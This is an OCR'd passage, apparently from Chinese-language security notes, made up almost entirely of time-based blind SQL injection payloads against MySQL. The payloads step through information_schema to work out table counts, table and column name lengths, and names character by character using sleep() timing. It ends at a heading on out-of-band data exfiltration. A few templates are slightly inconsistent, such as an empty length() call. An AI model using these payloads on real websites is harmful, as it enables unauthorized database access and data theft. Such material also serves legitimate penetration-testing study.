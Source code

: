   ```
  1' and if(exp1,sleep(10),0) --+
  exp1= length((select count(table_name)from information_schema.tables where
  table_schema=database() limit 0,1))
  综上：
  1' and if(length((select table_name from information_schema.tables where
  table_schema=database() limit 0,1))=m,sleep(10),0) --+ //m为表名长度
  
  ④获取表的个数
  1' and if(exp1,sleep(10),0) --+
  exp1= select count(*) from information_schema.tables where
  table_schema=database())=m
  综上:
  1' and if((select count(*) from information_schema.tables where
  table_schema=database())=4,sleep(10),0) --+ //m为表的个数
  
  //获取表名
  1' and if(exp1,sleep(10),0) --+
  exp1= ascii(substr((select table_name from information_schema.tables where
  table_schema=database() limit 0,1),n,1))=m
  综上：
  1' and if(ascii(substr((select table_name from information_schema.tables where
  table_schema=database() limit 0,1),n,1))=m,sleep(10),0) --+ //n为表名的第
  几个位置，m为ascii范围[65,122]
  
  ⑤获取字段长度
  1' and if(length(),sleep(10),0) --+
  exp1= length((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1))=m
  综上：
  1' and if(length((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1))=2,sleep(10),0) --+
  //m为字段名长度
  //获取字段个数
  1' and if((select count(*) from information_schema.columns where
  table_schema=database() and table_name='表名')=m,sleep(10),0) --+ //m为表的个数
  
  ⑥获取字段名
  1' and if(exp1,sleep(10),0) --+
  exp1= ascii(substr((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1),n,1))=m
  综上：
  1' and if(ascii(substr((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1),n,1))=m,sleep(10),0) --+
  //n为字段名的位置，m为ascii范围[65,122]
  
  ⑦获取数据
  
  ```

### 数据外带
